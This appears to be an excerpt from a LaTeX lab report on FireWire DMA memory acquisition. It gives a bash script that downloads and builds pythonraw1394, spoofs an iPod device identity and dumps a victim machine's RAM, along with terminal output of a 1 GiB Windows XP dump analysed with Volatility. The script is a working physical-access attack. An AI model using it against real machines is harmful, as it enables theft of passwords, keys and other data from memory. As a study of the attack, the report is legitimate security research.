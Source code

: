 \documentclass[a4paper,
    11pt,
    normalheadings,
    parindent,
    UKenglish,
    abstracton,
    ]{scrartcl}
\begin{document}
\begin{verbatim}
#!/bin/bash

DIR=/tmp/$RANDOM
PYTHONRAW=http://www.storm.net.nz/static/files/pythonraw1394-1.0.tar.gz
LOCALPORT=0
REMOTEPORT=1
NODE=0

mkdir -p $DIR && cd $DIR &&
  wget --continue -O- $PYTHONRAW | tar xvf - &&
  cd pythonraw1394/ &&
  sudo apt-get install -y libraw1394 libraw1394-dev swig python-dev build-essential &&
  sed -i 's/python2\.3/python2\.6/g' Makefile &&
  make &&
  sudo modprobe raw1394 &&
  sudo chgrp $USER /dev/raw1934 &&
  ./businfo &&
  ./romtool -g $LOCALPORT $DIR/localport.csr &&
  ./romtool -s $LOCALPORT ipod.csr &&
  ./1394memimage $REMOTEPORT $NODE $DIR/memdump 0 2G &&
  echo Success, please read the memory at $DIR/memdump || echo Failure
\end{verbatim}

By doing that, we successfully obtained the contents of a Windows XP SP3 machine in a temporary directory.
In our case, it took around 500 seconds to capture 1024 MiB RAM.
Interestingly enough, when reading more RAM than installed in the victims machine, the program puts \texttt{0xff}s in the dump file.
We rebooted the machine from Windows into Linux and read the RAM.
Hence, reading RAM from a machine running Linux (2.6.31) works fine.
We found it interesting that we still were able to read memory of the Windows system which we have shutdown properly.
So Windows left artefacts which we were able read.

Note that the machine whose RAM we read ran a Linux Kernel which did not make use of the most recent FireWire stack, simply because it has not been officially released yet.
It will be interesting to see, how and under which circumstances the new FireWire stack, called Juju\footnote{\url{https://ieee1394.wiki.kernel.org/index.php/Juju_Migration}}, allows the RAM to be read and written.
For completeness, we also tried reading the RAM of a Laptop running MacOS and it worked equally well.


\begin{verbatim}
muelli@xbox:/tmp/pythonraw1394$ ionice -c 3 ./1394memimage 0 1 /tmp/windows.mem 0-1G
1394memimage v1.0 Adam Boileau, 2006. <adam@storm.net.nz>
Init firewire, port 0 node 1
Reading 0x3fd00000 (1045504KiB) at 2027 KiB/s...
1073741824 bytes read
Elapsed time 517.51 seconds
Writing metadata and hashes...
muelli@xbox:/tmp/pythonraw1394$ volatility ident -f windows.mem
              Image Name: windows.mem
              Image Type: Service Pack 3
                 VM Type: nopae
                     DTB: 0x39000
                Datetime: Mon Mar 22 19:06:42 2010
muelli@xbox:/tmp/pythonraw1394$
\end{verbatim}
\end{document}

